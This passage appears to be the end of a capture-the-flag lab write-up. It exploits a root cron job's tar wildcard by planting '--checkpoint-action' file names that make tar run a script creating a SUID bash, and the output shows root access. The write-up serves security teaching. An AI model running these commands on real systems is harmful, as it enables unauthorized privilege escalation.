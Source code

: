 ```bash
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/local/bin/backup.sh

luigi@22ae1bc1f511:/$ cat /usr/local/bin/backup.sh
#!/bin/bash
mkdir -p /backups
cd /home/luigi/
tar -czf /backups/home_luigi_backup.tar.gz *

luigi@22ae1bc1f511:/$ ls -la /usr/local/bin/backup.sh
-rwxr-xr-x 1 root root 91 Dec 27 23:11 /usr/local/bin/backup.sh
```

We do not have write permissions on the scheduled task file, but we can exploit this task using a **TAR Wildcard**, as we do have permissions in the `/home/luigi` directory.  

```bash
luigi@22ae1bc1f511:/home/luigi$ echo "cp /usr/bin/bash /tmp/b && chmod +s /tmp/b" > cpbash.sh
luigi@22ae1bc1f511:/home/luigi$ chmod +x cpbash.sh 
luigi@22ae1bc1f511:/home/luigi$ touch ./'--checkpoint=1' 
luigi@22ae1bc1f511:/home/luigi$ touch ./'--checkpoint-action=exec=sh cpbash.sh'
luigi@22ae1bc1f511:/home/luigi$ ls -la
total 32
-rw-r--r-- 1 luigi root     0 Feb  2 01:15 '--checkpoint-action=exec=sh cpbash.sh'
-rw-r--r-- 1 luigi root     0 Feb  2 01:14 '--checkpoint=1'
drwxr-xr-x 1 luigi luigi 4096 Feb  2 01:15  .
drwxr-xr-x 1 root  root  4096 Dec 27 23:11  ..
-rw-r--r-- 1 luigi luigi  220 Feb 25  2020  .bash_logout
-rw-r--r-- 1 luigi luigi 3771 Feb 25  2020  .bashrc
-rw-r--r-- 1 luigi luigi  807 Feb 25  2020  .profile
-rwxr-xr-x 1 luigi root    43 Feb  2 01:14  cpbash.sh
drwxr-xr-x 3 luigi luigi 4096 Dec 27 23:11  subversion
```

We wait for a minute and obtain a **SUID bash shell**. We use it to escalate privileges to root.  

```bash
luigi@22ae1bc1f511:/home/luigi$ ls -la /tmp/b
-rwsr-sr-x 1 root root 1183448 Feb  2 01:17 /tmp/b
luigi@22ae1bc1f511:/home/luigi$ /tmp/b -p
b-5.0# id
uid=1000(luigi) gid=0(root) euid=0(root) groups=0(root)
b-5.0# 
```

**Lab completed, I hope you enjoyed it or learned something.**
